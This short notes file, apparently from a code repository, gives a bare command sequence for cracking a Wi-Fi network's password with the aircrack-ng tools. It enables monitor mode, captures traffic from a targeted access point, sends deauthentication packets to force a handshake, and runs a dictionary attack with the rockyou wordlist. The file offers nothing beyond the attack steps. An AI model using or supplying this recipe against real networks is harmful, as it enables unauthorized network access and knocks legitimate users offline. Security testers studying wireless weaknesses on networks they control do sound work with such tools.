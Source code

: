 # network

** wifi start **

airmon-ng start wlan0

airodump-ng wlan0mon

airodump-ng --bssid 98:F1:99:50:xx:xx -c 4 -w hackwifi-xxx wlan0mon

aireplay-ng -0 4 -a 98:F1:99:50:xx:xx wlan0mon       //別cmd

aircrack-ng ./hack-aterm.cap-06.cap -w ./rockyou.txt 

airmon-ng stop wlan0
